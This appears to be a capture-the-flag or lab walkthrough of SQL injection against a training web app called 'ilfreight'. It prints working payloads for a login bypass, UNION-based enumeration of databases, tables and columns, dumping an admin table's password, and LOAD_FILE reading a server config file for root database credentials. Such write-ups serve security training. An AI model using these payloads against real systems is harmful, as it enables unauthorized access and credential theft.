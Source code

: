 In the login page, bypass the authentication by inserting ONLY in the username field the following payload:
```
admin'or 1=1 or ''='
```
Source: https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/

Then you will land in a page like a table with the Search field as the only input. There, inject:
```
cn' UNION select 1, database(), 2, 3, 4-- -
```
From here we understand we can read information inside the database. its name is `ilfreight`. So, at this point let's run several SQL commands to retrieve the structure of the database elements we need.

Search all tables for all databases. Don't focus only on `ilfreight` database. In general, if you need to focus only on it, run:
```
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -
```
Instead, now it is better to inject:
```
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES-- -
```
We got `admin_bk` table from `backup` database. Let's search all columns for this table:
```
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.COLUMNS where table_name='admin_bk' and table_schema='backup'-- -
```
We get: `username` and `password`. Now, we have all the elements for injecting our SQL query for getting the info we need:
```
cn' UNION select 1,2,username,password,4 from backup.admin_bk-- -
```
We get:
```
admin:Inl@n3_fre1gh7_adm!n
```
Note: the `users` table in `ilfreight` database is a rabbit hole.

Trying to connect to database by `mysql` maybe is not needed, also because we don't see any open ports on MySQL database. We can use SQL queries for reading some internal configuration files like:
```
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4, 5-- -
```
and we get:
```
'127.0.0.1', 'DB_USERNAME' => 'root', 'DB_PASSWORD' => 'password', 'DB_DATABASE' => 'ilfreight' ); $conn = mysqli_connect($config['DB_HOST'], $config['DB_USERNAME'], $config['DB_PASSWORD'], $config['DB_DATABASE']); if (mysqli_connect_errno($conn)) { echo "Failed connecting. " . mysqli_connect_error() . "
"; } ?>
```
So we got `root:password` credentials.
